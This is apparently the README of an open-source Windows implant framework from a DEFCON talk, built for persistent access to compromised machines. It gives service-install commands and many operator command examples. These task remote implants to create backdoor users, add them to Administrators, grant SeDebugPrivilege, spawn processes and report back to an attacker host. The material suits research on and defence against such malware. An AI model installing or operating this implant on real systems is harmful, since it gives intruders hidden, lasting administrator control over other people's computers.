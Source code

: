 # Obligato
This project is an implant framework designed for long term persistent access to Windows machines. The goals are centered around disassociating implant tasks and network activity from the implant service. The primary intended use if for maintaining or regaining access to compromised endpoints.

![img](./media/ObClientGUI.png)

The initial release is the code used in the demos for my DEFCON 31 talk [Malware Design - Abusing legacy Microsoft transports and session architecture](https://forum.defcon.org/node/245731). This does not implement the access controls and transport encryption layers. These features will be pushed after integrating the existing functionality of the command-line agent into the GUI. I am currently the only developer, so community help is welcome!

Please checkout my talk or the companion slides to get more details and specifics on the underlying components, functionality, and use cases.

## Build Instructions & Information
I used Microsoft Visual Studios 2019 and the latest version of the Windows 10 SDK to build this project, so make sure you have the C++ dependencies installed in VS. The ```ObEngine``` project builds a library that is configured as a dependency in the other three projects ```ObAgent```, ```ObClient```, and ```ObService```. To build Obligato, open the solution in Visual Studios, right click the solution, and choose build. This will begin by building the ObEngine library and then proceed to the other projects that leverage it as a dependency. Each of the projects are described in the following sections.

> [!IMPORTANT]
> Currently, only x64 is supported, so you will get build errors if you try to build for x86.

### [ObService](https://github.com/BeetleChunks/Obligato/tree/main/ObService)
This is the implant service executable that is installed on target endpoints.

#### Installation and Updating Defaults
The Obligato service executable can be installed using the following commands. This assumes the ObEngine service binary is located at ***C:\\Windows\\ObService.exe***. If you rename the service binary or change the directory location, update the ***binPath=*** parameter accordingly.

```
sc create ObMailslot start= auto type= share binPath= "C:\Windows\ObService.exe"
sc create ObUdpSocket start= auto type= share binPath= "C:\Windows\ObService.exe"
```

The service names ***ObMailslot*** and ***ObUdpSocket*** are the required service names. Because the process is a ***share*** type, the service names in the service registration handles must match the service names in the service entry table. If you would like to name them something different, you can update the following lines in the ```ObService``` project's [Main.cpp](https://github.com/BeetleChunks/Obligato/blob/main/ObService/src/Main.cpp) file and recompile.

```c++
WCHAR MailslotSvc[]  = L"ObMailslot";
WCHAR UdpSocketSvc[] = L"ObUdpSocket";
...
g_hService = ::RegisterServiceCtrlHandlerEx(L"ObMailslot", ObMailslotHandler, nullptr);
...
g_hService = ::RegisterServiceCtrlHandlerEx(L"ObUdpSocket", ObUdpSocketHandler, nullptr);
```

The default configurations of the ***Mailslot*** and ***UDP socket*** listeners can also be updated in the ```ObService``` project's [Main.cpp](https://github.com/BeetleChunks/Obligato/blob/main/ObService/src/Main.cpp) file.

```c++
ObEngine::StartMailslotServer(std::wstring(L"obligato")); // Mailslot name
...
ObEngine::StartUdpSocketServer(std::wstring(L"0.0.0.0"), 49153); // IPv4 Address & Port
```

### [ObAgent](https://github.com/BeetleChunks/Obligato/tree/main/ObAgent)
This is the command-line agent used to send tasks to remote targets that are implanted and receive the optional responses. This agent can also start the same transport listeners implemented by the ObService. Please note this should only be used for testing because certain functionality within the implant depends on running as system in session 0.

<details>
<summary>Usage</summary>

```
ObAgent.exe [Command] [Options...]
```

| Command          | Category     | Description                               |
| :--------------- | :----------: | :---------------------------------------- |
| StartMsServer    | Server       | Start Mailslot server listener            |
| StartUdpServer   | Server       | Start UDP socket server listener          |
| AddMsNotify      | Notification | Add mailslot notification route           |
| DelMsNotify      | Notification | Remove mailslot notification route        |
| SendMsNotify     | Notification | Send notification via mailslot            |
| AddUdpSocNotify  | Notification | Add UDP socket notification route         |
| DelUdpSocNotify  | Notification | Remove UDP socket notification route      |
| SendUdpSocNotify | Notification | Send notification via UDP socket          |
| AddUser          | Task         | Create local user                         |
| DelUser          | Task         | Delete local user                         |
| AddGroup         | Task         | Create local group                        |
| DelGroup         | Task         | Delete local group                        |
| AddGroupMem      | Task         | Add member to local group                 |
| RmGroupMem       | Task         | Remove member from local group            |
| AddPriv          | Task         | Add privilege to local user or group      |
| RmPriv           | Task         | Remove privilege from local user or group |
| SpwnProc         | Task         | Spawn a process in a user session         |

| Option | Description                                                              |
| :----- | :----------------------------------------------------------------------- |
| -dMs   | Destination Mailslot name that performs the task                         |
| -dNb   | Destination NetBIOS name that performs the task                          |
| -dUA   | Destination UDP socket IPv4 address that performs the task               |
| -dUP   | Destination UDP socket port number that performs the task                |
| -Ms    | Mailslot name for server start or to receive a task's response           |
| -Nb    | NetBIOS name for server start or to receive a task's response            |
| -UA    | UDP socket IPv4 address for server start or to receive a task's response |
| -UP    | UDP socket port number for server start or to receive a task's response  |
| -n     | Notification message                                                     |
| -d     | Domain                                                                   |
| -u     | User                                                                     |
| -p     | Password                                                                 |
| -g     | Group                                                                    |
| -c     | Comment attached to the created group                                    |
| -m     | Member                                                                   |
| -e     | Name of group or user when managing privileges                           |
| -Pr    | Privilege name (i.e. SeDebugPrivilege)                                   |
| -An    | Application name (i.e. C:\\Windows\\System32\\cmd.exe)                   |
| -Aa    | Application arguments                                                    |
| -Ac    | Application current working directory                                    |
| -h     | Print usage and help (***Not yet implemented***)                         |

</details>

<details>
<summary>Examples</summary>

#### StartMsServer
* Start a Mailslot listener
```
ObAgent.exe StartMsServer -Ms obnotify
```

#### StartUdpServer
* Start a UDP socket listener
```
ObAgent.exe StartUdpServer -UA 0.0.0.0 -UP 11337
```

#### AddMsNotify
* Using Mailslots, task a remote implant to add a Mailslot notification route.
```
ObAgent.exe AddMsNotify -dMs obligato -dNb TARGET01 -Ms obnotify -Nb ATTACKER01
```

* Using Mailslots, task ALL remote implants to add a Mailslot notification route.
```
ObAgent.exe AddMsNotify -dMs obligato -dNb * -Ms obnotify -Nb ATTACKER01
```

* Using UDP sockets, task a remote implant to add a Mailslot notification route.
```
ObAgent.exe AddMsNotify -dUP 49153 -dUA 10.0.0.23 -Ms obnotify -Nb ATTACKER01
```

#### DelMsNotify
* Using Mailslots, task a remote implant to delete a Mailslot notification route.
```
ObAgent.exe DelMsNotify -dMs obligato -dNb TARGET01 -Ms obnotify -Nb ATTACKER01
```

* Using Mailslots, task ALL remote implants to delete a Mailslot notification route.
```
ObAgent.exe DelMsNotify -dMs obligato -dNb * -Ms obnotify -Nb ATTACKER01
```

* Using UDP sockets, task a remote implant to delete a Mailslot notification route.
```
ObAgent.exe DelMsNotify -dUP 49153 -dUA 10.0.0.23 -Ms obnotify -Nb ATTACKER01
```

#### SendMsNotify
* Using Mailslots, task a remote implant to send a notification message to a Mailslot listener.
```
ObAgent.exe SendMsNotify -dMs obligato -dNb TARGET01 -Ms obnotify -Nb ATTACKER01 -n "Message routing works!"
```

* Using Mailslots, task ALL remote implants to send a notification message to a Mailslot listener.
```
ObAgent.exe SendMsNotify -dMs obligato -dNb * -Ms obnotify -Nb ATTACKER01 -n "Message routing works!"
```

* Using UDP sockets, task a remote implant to send a notification message to a Mailslot listener.
```
ObAgent.exe SendMsNotify -dUP 49153 -dUA 10.0.0.23 -Ms obnotify -Nb ATTACKER01 -n "Message routing works!"
```

#### AddUdpSocNotify
* Using Mailslots, task a remote implant to add a UDP socket notification route.
```
ObAgent.exe AddUdpSocNotify -dMs obligato -dNb TARGET01 -UP 11337 -UA 10.0.0.85
```

* Using Mailslots, task ALL remote implants to add a UDP socket notification route.
```
ObAgent.exe AddUdpSocNotify -dMs obligato -dNb * -UP 11337 -UA 10.0.0.85
```

* Using UDP sockets, task a remote implant to add a UDP socket notification route.
```
ObAgent.exe AddUdpSocNotify -dUP 49153 -dUA 10.0.0.23 -UP 11337 -UA 10.0.0.85
```

#### DelUdpSocNotify
* Using Mailslots, task a remote implant to delete a UDP socket notification route.
```
ObAgent.exe DelUdpSocNotify -dMs obligato -dNb TARGET01 -UP 11337 -UA 10.0.0.85
```

* Using Mailslots, task ALL remote implants to delete a UDP socket notification route.
```
ObAgent.exe DelUdpSocNotify -dMs obligato -dNb * -UP 11337 -UA 10.0.0.85
```

* Using UDP sockets, task a remote implant to delete a UDP socket notification route.
```
ObAgent.exe DelUdpSocNotify -dUP 49153 -dUA 10.0.0.23 -UP 11337 -UA 10.0.0.85
```

#### SendUdpSocNotify
* Using Mailslots, task a remote implant to send a notification message to a UDP socket listener.
```
ObAgent.exe SendUdpSocNotify -dMs obligato -dNb TARGET01 -UP 11337 -UA 10.0.0.85 -n "Message routing works!"
```

* Using Mailslots, task ALL remote implants to send a notification message to a UDP socket listener.
```
ObAgent.exe SendUdpSocNotify -dMs obligato -dNb * -UP 11337 -UA 10.0.0.85 -n "Message routing works!"
```

* Using UDP sockets, task a remote implant to send a notification message to a UDP socket listener.
```
ObAgent.exe SendUdpSocNotify -dUP 49153 -dUA 10.0.0.23 -UP 11337 -UA 10.0.0.85 -n "Message routing works!"
```

#### AddUser
* Using Mailslots, task a remote implant to create a local user.
```
ObAgent.exe AddUser -dMs obligato -dNb TARGET01 -u dlogmas -p P4ssw0rd
```

* Using Mailslots, task ALL remote implants to create a local user.
```
ObAgent.exe AddUser -dMs obligato -dNb * -u dlogmas -p P4ssw0rd
```

* Using Mailslots, task a remote implant to create a local user and send a response to a Mailslot listener.
```
ObAgent.exe AddUser -dMs obligato -dNb TARGET01 -u dlogmas -p P4ssw0rd -Ms obnotify -Nb ATTACKER01
```

#### DelUser
* Using Mailslots, task a remote implant to delete a local user.
```
ObAgent.exe DelUser -dMs obligato -dNb TARGET01 -u dlogmas
```

* Using Mailslots, task a remote implant to delete a local user and send a response to a UDP socket listener.
```
ObAgent.exe DelUser -dMs obligato -dNb TARGET01 -u dlogmas -UP 11337 -UA 10.0.0.85
```

#### AddGroup
* Using UDP sockets, task a remote implant to create a local group.
```
ObAgent.exe AddGroup -dUP 49153 -dUA 10.0.0.23 -g obgroup -c "Created for Obligato"
```

* Using UDP sockets, task a remote implant to create a local group and send a response to a Mailslot listener.
```
ObAgent.exe AddGroup -dUP 49153 -dUA 10.0.0.23 -g obgroup -c "Created for Obligato" -Ms obnotify -Nb ATTACKER01
```

#### DelGroup
* Using Mailslots, task a remote implant to delete a local group.
```
ObAgent.exe DelGroup -dMs obligato -dNb TARGET01 -g obgroup
```

#### AddGroupMem
* Using Mailslots, task a remote implant to add a local user to a local group.
```
ObAgent.exe AddGroupMem -dMs obligato -dNb TARGET01 -g obgroup -m dlogmas
```

* Using Mailslots, task a remote implant to add a domain user to a local group.
```
ObAgent.exe AddGroupMem -dMs obligato -dNb TARGET01 -g Administrators -m "ecorp\jdoe"
```

* Using Mailslots, task a remote implant to add a local group to the local Administrators group.
```
ObAgent.exe AddGroupMem -dMs obligato -dNb TARGET01 -g Administrators -m "obgroup"
```

#### RmGroupMem
* Using Mailslots, task a remote implant to remove a local user from a local group.
```
ObAgent.exe RmGroupMem -dMs obligato -dNb TARGET01 -g obgroup -m dlogmas
```

* Using Mailslots, task a remote implant to remove a domain user from a local group.
```
ObAgent.exe RmGroupMem -dMs obligato -dNb TARGET01 -g Administrators -m "ecorp\jdoe"
```

* Using Mailslots, task a remote implant to remove a local group from the local Administrators group.
```
ObAgent.exe RmGroupMem -dMs obligato -dNb TARGET01 -g Administrators -m "obgroup"
```

#### AddPriv
* Using Mailslots, task a remote implant to add a privilege to a local user.
```
ObAgent.exe AddPriv -dMs obligato -dNb TARGET01 -Pr SeDebugPrivilege -e dlogmas
```

* Using Mailslots, task a remote implant to add a privilege to a local group.
```
ObAgent.exe AddPriv -dMs obligato -dNb TARGET01 -Pr SeDebugPrivilege -e obgroup
```

#### RmPriv
* Using Mailslots, task a remote implant to remove a privilege from a local user.
```
ObAgent.exe RmPriv -dMs obligato -dNb TARGET01 -Pr SeDebugPrivilege -e dlogmas
```

* Using Mailslots, task a remote implant to remove a privilege from a local group.
```
ObAgent.exe RmPriv -dMs obligato -dNb TARGET01 -Pr SeDebugPrivilege -e obgroup
```

#### SpwnProc
* Using Mailslots, task a remote implant to spawn a process in a local user's logon session.
```
ObAgent.exe SpwnProc -dMs obligato -dNb TARGET01 -An "C:\Windows\System32\cmd.exe" -Aa "/K dir" -Ac "C:\Windows" -d "." -u dlogmas
```

* Using Mailslots, task a remote implant to spawn a process in a domain user's logon session.
```
ObAgent.exe SpwnProc -dMs obligato -dNb TARGET01 -An "C:\Windows\System32\calc.exe" -d "ecorp" -u jdoe
```

</details>

### [ObClient](https://github.com/BeetleChunks/Obligato/tree/main/ObClient)
This is just like the ObAgent except it offers all the features in an easy to use GUI. There are a couple of features in the ObAgent that I am still integrating into this GUI, such as, receiving the optional response notifications. This functionality and the access controls/encryption will be pushed very soon.

### [ObEngine](https://github.com/BeetleChunks/Obligato/tree/main/ObEngine)
This is a library that implements all the functionality of the implant tasking protocol. This is where new transports, tasks, routes, notifications, and other core functionality should be created.

# Disclaimer
This proof-of-concept code has been created for academic research and is not intended to be used against systems except where explicitly authorized. The code is provided as is with no guarantees or promises on its execution. I am not responsible or liable for misuse of this code.

